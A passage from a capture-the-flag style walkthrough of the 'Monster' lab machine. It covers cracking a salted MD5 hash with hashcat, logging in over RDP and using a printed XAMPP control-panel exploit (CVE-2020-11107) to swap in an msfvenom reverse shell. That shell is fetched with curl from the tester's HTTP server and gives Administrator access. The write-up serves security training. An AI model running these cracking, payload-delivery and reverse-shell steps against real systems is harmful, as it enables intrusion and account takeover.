└─$ echo -n 'YOUR_SALT_HERE' > salt.txt                                                   

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ hashcat -m 2600 -a 1 844ffc2c7150b93c4133a6ff2e1a2dba /usr/share/wordlists/rockyou.txt salt.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2913/5890 MB (1024 MB allocatable), 8MCU
<---snip--->
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

844ffc2c7150b93c4133a6ff2e1a2dba:Mike14YOUR_SALT_HERE     
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 2600 (md5(md5($pass)))
Hash.Target......: 844ffc2c7150b93c4133a6ff2e1a2dba
Time.Started.....: Mon Sep 29 19:33:25 2025 (0 secs)
Time.Estimated...: Mon Sep 29 19:33:25 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt), Left Side
Guess.Mod........: File (salt.txt), Right Side
Speed.#1.........:  1973.6 kH/s (0.76ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1048576/14344385 (7.31%)
Rejected.........: 0/1048576 (0.00%)
Restore.Point....: 1044480/14344385 (7.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: PORTOPORTOYOUR_SALT_HERE -> LesleeYOUR_SALT_HERE
Hardware.Mon.#1..: Util: 29%

Started: Mon Sep 29 19:33:24 2025
Stopped: Mon Sep 29 19:33:27 2025
```

So the password for mike is `Mike14`.

And the password for admin turns out to be `wazowski`.

### Connect with RDP as mike

Now that we have Mike's credentials, we can connect with RDP

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:mike /p:Mike14 /h:1024 /w:1500 +clipboard
[19:37:49:825] [297273:297274] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[19:37:49:825] [297273:297274] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
<---snip--->
```

### Continue enumeration

Checking the XAMPP-version, we find that it is `7.3.10`

```bat
C:\xampp> type properties.ini
[General]
installdir=C:\xampp
base_stack_name=XAMPP
base_stack_key=
base_stack_version=7.3.10-1
base_stack_platform=windows-x64
[Apache]
apache_server_port=80
apache_server_ssl_port=443
apache_root_directory=/xampp/apache
apache_htdocs_directory=C:\xampp/htdocs
apache_domainname=127.0.0.1
apache_configuration_directory=C:\xampp/apache/conf
apache_unique_service_name=
[MySQL]
mysql_port=3306
mysql_host=localhost
mysql_root_directory=C:\xampp\mysql
mysql_binary_directory=C:\xampp\mysql\bin
mysql_data_directory=C:\xampp\mysql\data
mysql_configuration_directory=C:\xampp/mysql/bin
mysql_arguments=-u root -P 3306
mysql_unique_service_name=
[PHP]
php_binary_directory=C:\xampp\php
php_configuration_directory=C:\xampp\php
php_extensions_directory=C:\xampp\php\ext
```

Let's check for privesc exploits

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ searchsploit xampp 
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
XAMPP - 'Phonebook.php' Multiple Remote HTML Injection Vulnerabilities                                                                                | multiple/remote/25391.txt
XAMPP - Buffer Overflow POC                                                                                                                           | windows/dos/51800.py
XAMPP - Insecure Default Password Disclosure                                                                                                          | multiple/dos/25393.txt
XAMPP - WebDAV PHP Upload (Metasploit)                                                                                                                | windows/remote/18367.rb
XAMPP 1.6.8 - Cross-Site Request Forgery (Change Administrative Password)                                                                             | windows/remote/7384.txt
XAMPP 1.6.x - 'showcode.php' Local File Inclusion                                                                                                     | multiple/webapps/33578.txt
XAMPP 1.6.x - Multiple Cross-Site Scripting Vulnerabilities                                                                                           | multiple/remote/33577.txt
XAMPP 1.7.2 - Change Administrative Password                                                                                                          | php/webapps/10391.txt
XAMPP 1.7.3 - Multiple Vulnerabilities                                                                                                                | php/webapps/15370.txt
XAMPP 1.7.4 - Cross-Site Scripting                                                                                                                    | windows/remote/36258.txt
XAMPP 1.7.7 - 'PHP_SELF' Multiple Cross-Site Scripting Vulnerabilities                                                                                | windows/remote/36291.txt
XAMPP 1.8.1 - 'lang.php?WriteIntoLocalDisk method' Local Write Access                                                                                 | php/webapps/28654.txt
XAMPP 3.2.1 & phpMyAdmin 4.1.6 - Multiple Vulnerabilities                                                                                             | php/webapps/32721.txt
XAMPP 5.6.8 - SQL Injection / Persistent Cross-Site Scripting                                                                                         | php/webapps/46424.html
XAMPP 7.4.3 - Local Privilege Escalation                                                                                                              | windows/local/50337.ps1
XAMPP 8.2.4 - Unquoted Path                                                                                                                           | windows/local/51585.txt
XAMPP Control Panel - Denial Of Service                                                                                                               | windows/dos/40964.py
XAMPP Control Panel 3.2.2 - Buffer Overflow (SEH) (Unicode)                                                                                           | windows/local/45828.py
XAMPP Control Panel 3.2.2 - Denial of Service (PoC)                                                                                                   | windows_x86/dos/45419.py
XAMPP for Windows 1.6.0a - 'mssql_connect()' Remote Buffer Overflow                                                                                   | windows/remote/3738.php
XAMPP for Windows 1.6.3a - Local Privilege Escalation                                                                                                 | windows/local/4325.php
XAMPP for Windows 1.6.8 - 'cds.php' SQL Injection                                                                                                     | windows/remote/32457.txt
XAMPP for Windows 1.6.8 - 'Phonebook.php' SQL Injection                                                                                               | windows/remote/32460.txt
XAMPP for Windows 1.7.7 - Multiple Cross-Site Scripting / SQL Injections                                                                              | windows/remote/37396.txt
XAMPP for Windows 1.8.2 - Blind SQL Injection                                                                                                         | windows/webapps/29292.txt
XAMPP Linux 1.6 - 'iart.php?text' Cross-Site Scripting                                                                                                | linux/remote/32166.txt
XAMPP Linux 1.6 - 'ming.php?text' Cross-Site Scripting                                                                                                | linux/remote/32165.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ searchsploit -m 50337    
  Exploit: XAMPP 7.4.3 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/50337
     Path: /usr/share/exploitdb/exploits/windows/local/50337.ps1
    Codes: CVE-2020-11107
 Verified: False
File Type: ASCII text
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Monster/50337.ps1


┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ cat 50337.ps1 
# Exploit Title: XAMPP 7.4.3 - Local Privilege Escalation
# Exploit Author: Salman Asad (@deathflash1411) a.k.a LeoBreaker
# Original Author: Maximilian Barz (@S1lkys)
# Date: 27/09/2021
# Vendor Homepage: https://www.apachefriends.org
# Version: XAMPP < 7.2.29, 7.3.x < 7.3.16 & 7.4.x < 7.4.4
# Tested on: Windows 10 + XAMPP 7.3.10
# References: https://github.com/S1lkys/CVE-2020-11107

$file = "C:\xampp\xampp-control.ini"
$find = ((Get-Content $file)[2] -Split "=")[1]
# Insert your payload path here
$replace = "C:\temp\msf.exe"
(Get-Content $file) -replace $find, $replace | Set-Content $file 
```

We have a PowerShell exploit that replaces the control panel's editor with our payload

```bat
C:\xampp> type xampp-control.ini
[Common]
Edition=
Editor=notepad.exe
Browser=
Debug=0
Debuglevel=0
TomcatVisible=1
Language=en
Minimized=1
<---snip--->
```

We create a reverse shell with `msfvenom`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.167 LPORT=443 -f exe -o rev_shell.exe          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: rev_shell.exe
```

Share it via HTTP, and

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ python -m http.server 80                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Download it to the Monster machine

```bat
PS C:\Users\Mike\Downloads> curl.exe http://192.168.45.167/rev_shell.exe -o rev_shell.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 73802  100 73802    0     0   511k      0 --:--:-- --:--:-- --:--:--  522k
PS C:\Users\Mike\Downloads> dir


    Directory: C:\Users\Mike\Downloads


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/29/2025   9:27 AM          45272 nc64.exe
-a----         9/29/2025  11:36 AM          73802 rev_shell.exe
```

### Get a privileged reverse shell

We kill our previous netcat listener and restart it

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ nc -lvnp 443
listening on [any] 443 ...

```

And then we execute the exploit in a PowerShell window

```powershell
PS C:\Users\Mike> cd .\Downloads\
PS C:\Users\Mike\Downloads> $file = "C:\xampp\xampp-control.ini"
PS C:\Users\Mike\Downloads> $find = ((Get-Content $file)[2] -Split "=")[1]
PS C:\Users\Mike\Downloads> $replace = "C:\Users\Mike\Downloads\rev_shell.exe"
PS C:\Users\Mike\Downloads> (Get-Content $file) -replace $find, $replace | Set-Content $file
PS C:\Users\Mike\Downloads> Get-Content C:\xampp\xampp-control.ini | Select-Object -First 10
[Common]
Edition=
Editor=C:\Users\Mike\Downloads\rev_shell.exe
Browser=
Debug=0
Debuglevel=0
TomcatVisible=1
Language=en
Minimized=1
```

Checking the netcat listener, we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.118.180] 50662
Microsoft Windows [Version 10.0.19044.1645]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
mike-pc\administrator

C:\WINDOWS\system32>
```

We have a connection as `Administrator`.

### Get the root flag

Finally, we can get the root flag

```bat
C:\WINDOWS\system32> cd C:\Users\Administrator\Desktop           
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\Users\Administrator\Desktop

04/18/2022  10:50 PM    <DIR>          .
04/18/2022  10:50 PM    <DIR>          ..
09/29/2025  07:17 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,939,557,888 bytes free

C:\Users\Administrator\Desktop> type proof.txt
type proof.txt
2<REDACTED>a

C:\Users\Administrator\Desktop>
```

For additional information, please see the references below.

## References

- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [CeWL - GitHub](https://github.com/digininja/CeWL)
- [cewl - Kali Tools](https://www.kali.org/tools/cewl/)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [feroxbuster - Documentation](https://epi052.github.io/feroxbuster-docs/docs/)
- [feroxbuster - GitHub](https://github.com/epi052/feroxbuster)
- [feroxbuster - Kali Tools](https://www.kali.org/tools/feroxbuster/)
- [findstr - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [How to use msfvenom - Metasploit Docs](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [PowerShell - Wikipedia](https://en.wikipedia.org/wiki/PowerShell)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [Remote Desktop Services - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Services)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [systemctl - Linux manual page](https://www.man7.org/linux/man-pages/man1/systemctl.1.html)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [wc - Linux manual page](https://man7.org/linux/man-pages/man1/wc.1.html)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [XML - Wikipedia](https://en.wikipedia.org/wiki/XML)
- [XAMPP - Wikipedia](https://en.wikipedia.org/wiki/Xampp)
- [xfreerdp - Linux manual page](https://linux.die.net/man/1/xfreerdp)
